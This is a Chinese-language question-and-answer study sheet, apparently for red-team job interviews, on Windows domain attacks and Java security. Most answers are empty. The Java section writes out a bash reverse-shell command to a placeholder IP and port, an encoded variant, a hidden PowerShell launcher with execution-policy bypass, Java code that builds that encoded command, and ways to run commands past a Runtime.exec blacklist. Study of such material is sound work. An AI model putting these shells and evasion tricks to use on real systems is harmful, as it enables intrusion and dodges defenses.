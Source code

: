 ### 红队方向之域环境

Q：域内委派是什么？  
A：

Q：PTH原理  

Q：PTH利用条件  

### 红队方向之权限维持

Q：dll劫持，dll注入  

## java安全

Q：java反射是什么
A：在程序运行时动态加载类并获取类的详细信息，从而操作类或对象的属性和方法，提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果

Q：java反射可以做哪些事情
A：

Q：java中反弹shell命令
A：java中直接执行bash -i >& /dev/tcp/ip/port 0>&1会失败，因为有>符号，表示重定向，需要对其进行编码
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
针对Powershell应该使用以下的命令
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
这个特殊的Base64和普通Base64不同，需要填充0，算法如下

    public static String getPowershellCommand(String cmd) {
        char[] chars = cmd.toCharArray();
        List<Byte> temp = new ArrayList<>();
        for (char c : chars) {
            byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
            for (byte b : code) {
                temp.add(b);
            }
            temp.add((byte) 0);
        }
        byte[] result = new byte[temp.size()];
        for (int i = 0; i < temp.size(); i++) {
            result[i] = temp.get(i);
        }
        String data = Base64.getEncoder().encodeToString(result);
        String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
        return prefix + data;
    }

Q：Runtime.exec加入黑名单还有什么方式执行命令
A：类似JSP Webshell免杀

大致方法有这些：使用基本的反射，ProcessImpl和ProcessBuilde，JDNI和LDAP注入，TemplatesImpl，BCEL，BeansExpression，自定义ClassLoader，动态编译加载，ScriptEngine，反射调用一些native方法，各种EL（SPEL和Tomcat EL等）

Q：RMI和LDAP类型的JNDI注入分别在哪个版本限制（★）
